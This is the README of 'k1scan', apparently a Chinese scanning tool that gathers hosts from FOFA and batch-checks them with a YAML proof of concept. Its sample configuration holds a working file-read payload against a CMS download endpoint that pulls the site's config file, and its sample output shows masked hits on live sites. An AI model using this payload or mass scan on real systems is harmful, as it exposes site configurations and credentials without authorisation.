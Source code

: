 # k1scan

FOFA Get only host, POC Batch testing, merge&amp;dedup

为了刷公益 SRC 诞生的小工具

## ⭐️ 主要功能

1. FOFA信息收集
   - 仅保留 host 字段, 保存为 txt 格式
2. POC 批量检测
   - 基于 poc.yaml 配置文件
   - 支持字段: method, path, timeout
3. 数据合并/去重
   - 对 results 文件夹内数据合并去重

## 🚀 快速开始

- **使用 FOFA 信息收集请检查 `api.yaml` 配置文件是否正确**

- **使用 POC 批量检测请检查 `poc.yaml` 配置文件是否正确**

### 1. 安装步骤

```bash
git clone https://github.com/ky1in7/k1scan.git ./k1scan
cd k1scan
python -m pip install -r requirements.txt
```

### 2. 配置文件

- api.yaml (FOFA信息收集)

```yaml
fofa_api:
  fofa_email: 填入fofa email
  fofa_key: 填入 fofa key
```

- poc.yaml (POC批量检测)

```yaml
request:
  # 请求方式 GET/POST
  method: get
  # 请求路径
  path: /do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
  # 超时时间
  timeout: 5
response:
  # 若存在漏洞响应包中包含的任意内容
  hit_content: <?php
```

### 3. 使用示例

```bash
> python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重
```

参考 <https://www.yuque.com/ky1in7/blog/cxe3d5>

## 📌 补充说明

1. FOFA信息收集

```bash
python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重

# 选择语句
请输入选项 1/2/3/4: 1
请输入 FOFA 规则语句: asd123
请求链接: [https://fofa.info/api/v1/search/all?email=***&key=***&qbase64=YXNkMTIz&fields=host&size=10000]
请求规则: [asd123]
共返回: [745] 条数据
# 是否保存 (默认为 N)
是否保存数据?[y/N]:y
=== 文件将保存为 txt 格式文件 ===
=== 数据类型为: <class 'list'> ===
# 选择语句 (结尾带不带 txt 都行)
请输入保存文件名称: fofa_search_xxx.txt
[Success] 保存成功, 文件路径: ./results/fofa_search_xxx.txt
```

2. POC 批量检测

```bash
python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询
[4] 数据合并/去重

# 选择语句
请输入选项 1/2/3/4: 2
# 选择检测的 url 文件名称, 必须存放在 results 目录下
请将文件放在 results 目录下, 并输入文件名称: qibo.txt
=== [以下为命中结果] ===
http://www.*******.com
http://www.******.com
http://******.com
http://******
http://******
http://www.******.com
http://bf.******.cn
http://m.******.com
http://******.******.******.com
http://www.******.com
http://******
```

3. 数据合并/去重

其实暂时只完成了合并, 输入保存名称后执行自动合并 results 目录下的所有文件

```bash
# 统计所有原文件行数
> wc results/*
    7192    7192  144864 results/******1.txt
    4482    4482   89230 results/******2.txt
    4130    4130   91867 results/******3.txt
    3484    3484   76138 results/******4.txt
   19288   19288  402099 results/******_all.txt
     745     745   15316 results/******.txt
    2706    2706   58357 results/***.txt
      36      36     771 results/***_result.txt
       2       3      48 results/*****.txt
   42065   42066  878690 total

> python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重

请输入选项 1/2/3/4: 4
将对 results 内所有结果进行排序去重
是否进行操作?[y/N]:y
输入保存的新文件名: :alll.txt
- 读取到 ['xxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxx.txt', 'xxx.txt', 'xxxxxx.txt'], 共 [9] 个文件
写入成功, 文件路径为 [results/alll.txt], 共 41901 条结果

# 统计合并后文件行数
wc results/alll.txt
   42065   42065  878690 results/alll.txt
```

### 关于权重查询

太麻烦了, 暂时没时间写, 先搁置

手动查权重的两个站点
- <https://rank.chinaz.com/all>
- <https://www.aizhan.com/>

## 免责声明

> 维护网络安全，营造良好的网络环境，程序仅供参考学习，请勿使用文中技术于非法用途，使用者造成任何负面影响与本人无关。